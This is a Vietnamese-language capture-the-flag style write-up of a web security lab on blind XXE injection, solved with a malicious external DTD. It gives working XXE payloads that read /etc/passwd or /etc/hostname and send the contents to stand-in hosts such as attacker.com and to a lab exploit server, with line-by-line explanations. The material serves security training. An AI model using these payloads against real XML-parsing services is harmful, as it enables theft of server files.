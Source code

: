 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

# Example


Giả sử chúng ta có một ứng dụng web cho phép người dùng nhập dữ liệu và xem nội dung của tệp XML được tạo ra từ dữ liệu đó. Ứng dụng này sử dụng một quá trình phân tích XML để phân tích và hiển thị dữ liệu.

Tuy nhiên, ứng dụng này bị mắc lỗi XXE và không kiểm tra và ngăn chặn các entity bên ngoài được tham chiếu trong tài liệu XML. Điều này có nghĩa là chúng ta có thể sử dụng một tệp DTD bên ngoài để thực hiện cuộc tấn công blind XXE và lấy trộm dữ liệu từ hệ thống mục tiêu.

Ví dụ, chúng ta có tệp DTD độc hại có tên "evil.dtd" với nội dung sau:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

Trong ví dụ này, chúng ta định nghĩa một entity có tên "file" để tham chiếu tới tệp "/etc/passwd" và sử dụng entity "exfiltrate" để gửi dữ liệu đó tới một máy chủ của kẻ tấn công thông qua một yêu cầu HTTP.

Sau đó, chúng ta tạo một tệp XML bằng cách sử dụng tệp DTD bên ngoài và gửi nó tới ứng dụng web mục tiêu:

```xml
<!DOCTYPE foo SYSTEM "http://attacker.com/evil.dtd">
<foo>&exfiltrate;</foo>
```

Khi ứng dụng web phân tích tệp XML này, nó sẽ tải tệp DTD từ địa chỉ `"http://attacker.com/evil.dtd"`. Tệp DTD độc hại sẽ tạo ra một yêu cầu HTTP tới máy chủ của kẻ tấn công chứa dữ liệu được lấy từ "/etc/passwd". Kẻ tấn công có thể thu thập và lưu trữ dữ liệu đó.

# Solution:

Ta có form của lab như sau

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/8c22258d-5c53-4290-91c4-dfed90a6ed35)

Làm như tương tự các lab trước, ta check stock

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/3e590be1-3c13-40b7-879f-452a6ce7a0a5)

Kế đó ta xác dịnh doctype và sau đó là entity là `loadDtd` và sử dụng lệnh `SYSTEM` để exploit server `https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/`

```xml
<!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/exploit">]
```

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/c5a037a1-d6e7-4764-a979-b588d9cc281d)


Sau đó ta cần host `loadDtd` file. Chúng ta cần host bời vì ta sẽ sử dụng Stack Entities

```xml
<!ENTITY  %file SYSTEM "file:///etc/hostname">
<!ENTITY % stack SYSTEM "<!ENTITY &#x25; exfil 'http://attacker-server.com/%file;'>">
%stack;
%exfil;
```

Đoạn mã trên định nghĩa các entity trong XML để thực hiện một cuộc tấn công XXE thông qua stack entities. Cụ thể:

- Dòng đầu tiên `<!ENTITY  %file SYSTEM "file:///etc/hostname">` định nghĩa một entity `%file` mà giá trị của nó là nội dung của tệp `/etc/hostname` trên hệ thống.
- Dòng thứ hai `<!ENTITY % stack SYSTEM "<!ENTITY &#x25; exfil 'http://attacker-server.com/%file;'>">` định nghĩa một entity `%stack` mà giá trị của nó là một đoạn văn bản XML mới chứa một entity `%exfil` đặc biệt.
- Dòng thứ ba `%stack;` sử dụng entity `%stack`, trong đó nói với trình phân tích XML rằng nó nên chèn nội dung của entity `%stack` vào tài liệu XML chính.
- Dòng thứ tư `%exfil;` sử dụng entity `%exfil`, nó chèn URL `http://attacker-server.com/%file` vào tài liệu XML. Điều này có thể được sử dụng để exfiltrate (đánh cắp) dữ liệu từ tệp `/etc/hostname` thông qua việc gửi yêu cầu HTTP đến máy chủ tấn công `http://attacker-server.com`.

Qua đó, tấn công này cố gắng đọc nội dung của tệp `/etc/hostname` trên máy chủ mục tiêu và gửi nó đến máy chủ tấn công thông qua exfiltration.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/88218a45-4868-4621-aa61-b63793d5190c)

Vậy thì sau khi xml praser xử lí xml của ta nó sẽ tìm kiếm file dtd của ta tại exploit server sau `/exploit`. Tiếp theo ta cần host  file dtd. Ta cần thêm 3 entites cho exploit server

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a1600ae04f6082c8344097501030025.exploit-server.net/?%file;'>"> 
```

Dòng đầu tiên: <!ENTITY %file SYSTEM "file:///etc/hostname"> định nghĩa một entity %file mà giá trị của nó là nội dung của tệp /etc/hostname trên hệ thống. Đây là một phần hợp lệ của XXE, cho phép đọc tệp từ hệ thống.

Dòng thứ hai: <!ENTITY %stack SYSTEM "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/?%file;'>"> định nghĩa một entity %stack mà giá trị của nó là một đoạn văn bản XML mới. Đoạn văn bản này tạo ra một entity con %exfil với giá trị là URL https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/?%file;.

Đoạn mã này có tác dụng tạo ra một chuỗi các entity, cho phép tấn công viên truy cập URL https://exploit-0a0800540448e7c881e70c6b01670003.exploit-server.net/?%file; và exfiltrate (đánh cắp) nội dung của tệp /etc/hostname.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/4b8684be-8dfe-4938-a088-96bdb41c2a23)

Sau đó ta cần tham chiếu `stack` và `exfil` mà ta đã tạo trong exploit server

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/72354315-7d4b-4798-b8ee-307007ab6d48)

Sau đó chỉ cần `store exploit` và send request và access log

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/55c7d988-b8de-41b9-abe9-cabe71e69e76)

Sumbit solution là xong lab.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/4122c74f-2b2f-4a66-ad1e-a16f795d16e6)


